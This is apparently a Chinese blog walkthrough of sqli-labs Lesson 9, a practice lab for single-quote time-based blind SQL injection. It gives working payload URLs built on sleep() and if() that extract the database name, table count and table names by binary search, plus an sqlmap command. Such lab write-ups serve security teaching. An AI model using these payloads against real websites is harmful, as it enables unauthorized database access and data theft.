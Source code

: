 ```yaml
---
title: sqli-labs-lession 9 GET单引号基于时间盲注
date: 2018-09-26 18:57:13
tags:
categories: sql注入
---
```

# sqli-labs-lession 9 GET单引号基于时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-9/1.png)

## 手注 ##

### 时间盲注函数 ###

* sleep()函数
	
	sleep(n):静止n秒,n是个变量

* if(1,2,3)

	如果1为真,执行2,否则执行3

### 判断类型 ###

在这个页面的`?id=1`后写入任何数据都没有结果返回,永远都是`You are in...........`的界面。

利用if函数来判断类型。

先查看源码

![2](/img/sql/Lesson-9/2.png)

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

注意到源码是单引号闭合的。并且无论数据库语句执行成功失败都不会返回信息。

可是如果我传入一个用if函数构造的语句

`1' and if(1,sleep(60),null)#`

SQL语句会变成

`$sql="SELECT * FROM users WHERE id='1' and if(1,sleep(60),null) #' LIMIT 0,1";`

如果被数据库成功解析,就会执行`sleep(60)`,页面就会转60s,即证明$id
被一个`''`包起来。

测试一下。

![3](/img/sql/Lesson-9/3.png)

可以发现左上角一直在转,果然是单引号闭合的时间盲注。

### 获取数据库 ####

#### 获取数据库长度 ####

![4](/img/sql/Lesson-9/4.png)

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(8=(length(database())),sleep(60),null)%23`

#### 获取数据库名 ####

猜第一个字符

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('s'=left(database(),1),sleep(60),null)%23`

![5](/img/sql/Lesson-9/5.png)

猜第二个

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('se'=left(database(),2),sleep(60),null)%23`

![6](/img/sql/Lesson-9/6.png)

中间省略了,可以用其他的方式,推荐二分法

最后猜解出数据库名

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('security'=left(database(),8),sleep(60),null)%23`

![7](/img/sql/Lesson-9/7.png)

数据库名为`security`

### 获取表 ###

#### 表数目 ####

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(4=(select count(table_name) from information_schema.tables where table_schema='security'),sleep(60),null)%23`

![8](/img/sql/Lesson-9/8.png)

#### 表长度 ####

以获取第一张表为例(第一张表是emails,玩旧了都记住了):

又在一直转了,说明第一张表长度为6。

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(6=length((select table_name from information_schema.tables where table_schema='security' limit 0,1)),sleep(60),null)%23`

![9](/img/sql/Lesson-9/9.png)

#### 表名 ####

这里过一遍二分法吧,免得忘了。一般从ascii码95~123。

True表示页面加载,False表示不加载。用第4张表(其实我知道是users表)测试。

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(95<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

95:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(109<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

109:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(116<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

116:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(120<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

120:False

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(118<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

118:False

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(117=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

117:True

117的ascii码为`u`,第4张表的第一个字符为`u`。

剩下的过程就不写了。都是相同的原里,把要查询的东西填到`if(1,2,3)`的1中就行了。

## SQLMAP ##

`sqlmap -u 10.60.250.151/sqlilabs/Less-9/?id=1 --technique T --dbs`

--technique T:表示测试时间延迟注入、

这种方式需要大量的时间

![10](/img/sql/Lesson-9/10.png)

![11](/img/sql/Lesson-9/11.png)

剩下的就不表了。